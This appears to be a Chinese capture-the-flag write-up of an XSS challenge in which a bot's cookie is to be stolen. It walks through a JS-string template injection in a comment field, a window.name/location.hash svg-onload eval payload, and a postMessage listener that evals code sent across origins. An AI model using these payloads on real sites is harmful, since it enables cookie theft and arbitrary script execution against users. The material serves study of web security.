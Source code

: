 ## 微积分计算小练习2.0
有点难的XSS，做出来也非常有成就感。这个题给了一个有漏洞的网站，然后我们可以提供一个静态HTML，题目会有一个selenium bot模拟受害者，先访问漏洞网站设置cookie，然后访问我们的静态HTML，整个过程不会出现任何输出，也不能连接外网。我们的目标是偷到bot设置的cookie。

### 网页XSS漏洞

首先开始挖网站上的漏洞，做题页面没有东西，结果页面有个评论区功能，只能留25个字符，并且过滤了一大堆字符。本来想讲讲思路的，不过想来还是直接把我当时做的笔记直接放上来比较有节目效果（

```js
- 按上一届，后台可能是uWSGI？
- 反斜杠可以转义
- 单个双引号会报错，说明整个是双引号括起来的？
    - "+"注入，后台不会eval了吧？
    - 1"*2+"2，会得到NaN2
    - "+url_for+"，会出现只有第二行加载中（运行时报错？）
    - "["__name__"]+" 出undefined
    - 23"||7+" 会去除前面的"你的评论"的提示
    - "+{a:12}+" 会出[object Object]，基本确定是js解释器，有window，document
        - 这好像是我自己的浏览器解释器啊？
        - 拿cookie payload: "+document["cookie"]+"
- md破案了，模板是：
updateElement("#comment", "你留下的评论：{{input}}");
```
如上面所示，加载评论的模板其实放在JS段的一个字符串中间，又没有过滤双引号和转义，那很容易就会造成前端的模板注入（并不是在模板引擎中注入而是在前端JS代码注入），因为评论区其他人也可以看到所以可以转化为持久性XSS。

到这一步就有两个分支思路了：
- 利用反斜杠转义功能制造通用XSS。市面上能见到最短的有效载荷是这个：`<svg/onload=eval(name)>`，但问题在于尖括号和圆括号被过滤了，尽管我们可以用`\74svg/onload=eval\50name\51\76`这样的8进制语法绕过，但很不幸还是太长了。
- 利用`"+ __ +"`结构截断字符串，注入JS代码。有很多有意思的变量可以用，比如`document["cookie"]`可以直接读出来放在页面上，比如`name`全局变量，可以在`window.open`时指定。`location["hash"]`变量，可以在URL的#后面插入内容来指定。只可惜这种方法里面调用函数是不行的，因为离开字符串环境就不能用反斜杠转义了，括号打不出来，也就没法用`"+eval(name)+"`这种手段执行代码了。

等下，如果我把两种方法结合起来用，阁下将如何应对？

- 在评论区注入`"+name+"`，
- 在`window.open`创建漏洞网站的窗口时，指定`name`如下。因为hash内容是#+URL转义后的内容，这样可以直接还原原文。

```js
<svg/onload=eval(decodeURI(location.hash.substring(1)));>
```

- 访问`http://web/result#<your js code>`可以在svg标签加载时直接执行后面的JS代码。

因为location.hash的长度限制很宽松，也没有WAF，我们实现了任意XSS。

### 跨域XSS + 结果返回
接下来还有两大难点需要解决：
- 漏洞网站在web上，而我们的网页挂载在localhost上，两者处于不同的源。因此基于浏览器的同源安全策略，不能用window, iframe等直接访问对方DOM内容，用fetch/XHR访问时不能携带cookie
- 本题的bot没有回显，没有外网，唯一的输出通道就是漏洞网站本身，而bot和我们处于不同的session，它对网站的修改我们是看不到的（甚至于一开始我都不知道bot的session是不是真的和我们不一样，也许id参数会给它一样的session也说不定呢）

首先解决跨域的问题。跨域通信有很多奇技淫巧，但是最正统的方法应该还是`postMessage`API，可以向对方发送一段字符串，对方可以监听`message`事件后用一个回调函数处理这个发送的字符串。这个通信是双向的，父窗口可以用`window.open`返回对象访问子窗口，而子窗口也可以用`window.opener`返回父窗口。为了方便调试，我实现了一个shell的功能，子窗口直接eval父窗口的命令，然后把结果返回去。因为后续命令会包含fetch等异步函数，所以这个shell也必须是一个异步的。我的实现如下：
```js
// 把回车缩进去掉变成一行塞到URL的#后面
w=window.opener;
window.addEventListener("message",(e)=>{
    console.log(e.data);
    eval("async ()=>{"+e.data+"}")().then(
        m=>w.postMessage(m, "*")
    )});
w.postMessage("OK:web","*");
```
这样一来，我们就可以在localhost源发送代码到web源执行，再也不用担心#后面代码过长导致的问题了。
